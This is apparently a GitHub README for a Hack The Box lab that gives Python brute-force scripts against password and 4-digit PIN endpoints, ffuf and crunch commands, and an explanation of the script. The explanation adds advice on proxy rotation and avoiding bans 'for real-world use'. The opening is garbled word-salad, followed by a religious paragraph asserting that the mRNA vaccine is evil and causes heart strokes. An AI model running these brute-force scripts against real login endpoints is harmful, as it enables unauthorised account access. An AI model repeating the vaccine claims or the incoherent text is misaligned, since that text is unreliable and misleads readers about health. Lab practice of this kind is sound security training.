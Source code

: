 # HTB_Login_bruteforce

Today's 29-05-2025 God's speaking: theres no place like home I'm done driving guilty place unsung hero are you insane bye you talkin' to me ahh thats much better failure to communicate Catastrophic Success by the way listen buddy CIA God smack foul white trash bad ol puddytat I'm tired of this economy straighten up BBC crash and burn this might end badly what do you want nerd money It grieves me how come Give me praise Russia

The brute-force attack can be utilized when the randomity of God reaches a human being. Mortile human likes to create their fortress against God. What I mean is When the C virus occurred in China, the medical companies developed the vaccine to stand against God's oracle. Eventually, a side-effect of the evil irreversible MRNA vaccine could cause severe heart stroke. This is a consequence of the people who do not decide to follow God's will. I am talking about brute force attacking God's will and punishment of God. 

Here is a code given by the HTB. 
```
import requests

ip = "127.0.0.1"  # Change this to your instance IP address
port = 1234       # Change this to your instance port number
passwords = requests.get("https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/500-worst-passwords.txt").text.splitlines()
for password in passwords:
    print(f"Attempted password: {password}")

    
    response = requests.post(f"http://{ip}:{port}/dictionary", data={'password': password})

    
    if response.ok and 'flag' in response.json():
        print(f"Correct password found: {password}")
        print(f"Flag: {response.json()['flag']}")
        break
```


In some reason the ffuf did not worked out on this URL 
```
crunch 4 4 0123456789 -o 4-digits.txt
ffuf -u "http://0.0.0.0.:00000/pin?pin=FUZZ" -w 4-digits.txt
```

They all have returned 401 errors.

The code below uses special techniques that allow repentants
to use Multithreading without time.sleep(), artificial Delays

```
import requests
from concurrent.futures import ThreadPoolExecutor, as_completed

ip = "0.0.0.0"  # Target IP
port = 12345           # Target port

def try_pin(pin):
    formatted_pin = f"{pin:04d}"
    try:
        response = requests.get(
            f"http://{ip}:{port}/pin?pin={formatted_pin}",
            timeout=3  # Prevents hanging on slow responses
        )
        if response.ok and 'flag' in response.json():
            return formatted_pin, response.json()['flag']
    except (requests.RequestException, ValueError) as e:
        pass  # Skip errors (timeouts, JSON decode fails)
    return None

def brute_force():
    with ThreadPoolExecutor(max_workers=50) as executor:  # Adjust workers based on server tolerance
        futures = [executor.submit(try_pin, pin) for pin in range(10000)]
        for future in as_completed(futures):
            result = future.result()
            if result:
                pin, flag = result
                print(f"\n[+] Correct PIN found: {pin}")
                print(f"[+] Flag: {flag}")
                executor.shutdown(wait=False)  # Stop all threads immediately
                return

if __name__ == "__main__":
    print("Starting brute-force attack...")
    brute_force()
```

1. Multithreading with ThreadPoolExecutor
What It Does:
Instead of testing PINs one-by-one (sequentially), the script sends multiple concurrent requests using a thread pool.

Example: If max_workers=50, it tests 50 PINs simultaneously, drastically reducing total time.

Key Components:
ThreadPoolExecutor: Manages a pool of worker threads.

executor.submit(): Queues a PIN to be tested by an available thread.

as_completed(): Yields futures (thread results) as they finish, out of order.

Why It’s Faster:
Sequential code (original) takes ~10,000 requests × latency (e.g., 0.1s) = 16+ minutes.

Multithreaded (50 workers) takes ~(10,000/50) × latency ≈ 20 seconds.

2. No time.sleep() or Artificial Delays
Original Problem:
Adding time.sleep() between requests slows down brute-forcing (e.g., sleep(0.1) → 16+ minutes total).

Unnecessary: Delays are only needed if the server rate-limits (handled later via max_workers).

Solution:
Remove all delays: Let threads run at full speed.

Control throughput via max_workers:

Fewer workers (e.g., max_workers=10) → Lower server load.

More workers (e.g., max_workers=100) → Faster but riskier (may trigger bans).

3. Error Handling and Timeouts
Critical Improvements:
try/except Blocks:

Catches network errors (e.g., timeouts, connection resets) silently to avoid crashes.

Skips invalid JSON responses (e.g., if the server returns HTML on errors).

timeout=3 in requests.get():

Prevents threads from hanging indefinitely on unresponsive servers.

Frees up threads quickly for new PINs.

Why It Matters:
Without timeouts, a single slow request could stall the entire thread pool.

Silent error handling ensures the script continues even if some requests fail.

4. Early Termination
How It Works:
When a thread finds the correct PIN ('flag' in response), it returns the result.

executor.shutdown(wait=False):

Immediately stops all threads (no wasted requests after success).

wait=False kills pending threads aggressively.

Efficiency Gain:
Avoids testing all 10,000 PINs if the correct one is found early (e.g., at PIN 0427).

5. Thread Safety and Shared State
Design Choices:
No shared variables: Each thread works independently (no locks needed).

Stateless: Threads don’t modify global data; results are returned via futures.

Why It’s Safe:
Threads only read the pin value and send HTTP requests.

Results are collected thread-safely by as_completed().

6. Optional: Dynamic Adjustments
For Real-World Use:
Proxy Rotation: Add proxies to requests.get() if the server bans IPs.

Rate Limiting: Reduce max_workers if the server rejects requests (e.g., HTTP 429).

Progress Tracking:
```
python
if pin % 100 == 0:
    print(f"Progress: {pin}/10000", end="\r")
```
Performance Comparison
Metric	Original Code	Enhanced Code (50 threads)
Total Time	~16 minutes	~20 seconds
CPU Usage	Low (single-threaded)	High (parallel)
Network Overhead	Low	Moderate (50 concurrent)
Robustness	Fragile (no error handling)	Resilient (timeouts/retries)
When to Use This Approach
Fast brute-forcing: Ideal for CTFs or pentesting where speed matters.

Servers without rate-limiting: If the target allows high concurrency.

Avoids ffuf limitations: When you need custom logic (e.g., JSON parsing).

Final Notes
Adjust max_workers based on server tolerance (start low, increase gradually).

Monitor for bans (HTTP 429/403); if triggered, add proxies or reduce threads.

For rate-limited targets, consider adding a small delay per thread (e.g., time.sleep(0.05) inside try_pin).

This script balances speed, reliability, and simplicity—perfect for attacking 4-digit PIN endpoints efficiently.




        
